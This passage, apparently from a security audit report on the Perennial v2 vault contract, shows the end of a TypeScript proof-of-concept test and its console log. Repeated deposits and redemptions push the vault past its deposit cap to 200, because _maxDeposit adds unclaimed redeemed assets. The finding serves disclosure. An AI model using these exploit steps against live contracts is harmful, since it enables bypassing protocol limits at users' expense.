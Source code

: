 ```ts

    // deposit 100 (50+100=150) doesn't revert, because assets = 50
    var deposit = parse6decimal('100')
    console.log("Deposit 100")
    await vault.connect(user).update(user.address, deposit, 0, 0);

    await updateOracle()
    await vault.settle(user.address);

    var assets = await vault.totalAssets();
    console.log("Vault assets: " + assets);

    var deposit = parse6decimal('50')
    console.log("Deposit 50")
    await vault.connect(user).update(user.address, deposit, 0, 0);

    await updateOracle()
    await vault.settle(user.address);

    var assets = await vault.totalAssets();
    console.log("Vault assets: " + assets);
})
```

Console log from execution of the code above:
```solidity
start
Deposit 100
Vault assets: 100000000
Deposit 10 revert
Redeem 50
Vault assets: 50000000
Deposit 100
Vault assets: 150000000
Deposit 50
Vault assets: 200000000
```

The vault cap is set to 100 and is then demonstrated that it is bypassed and vault assets are set at 200 (and can be continued indefinitely)

## Code Snippet

`_maxDeposit` always adds `context.global.assets` (assets redeemed but not yet claimed) to the returned amount, even when the vault is at or above cap:
https://github.com/sherlock-audit/2023-10-perennial/blob/main/perennial-v2/packages/perennial-vault/contracts/Vault.sol#L483

## Tool used

Manual Review

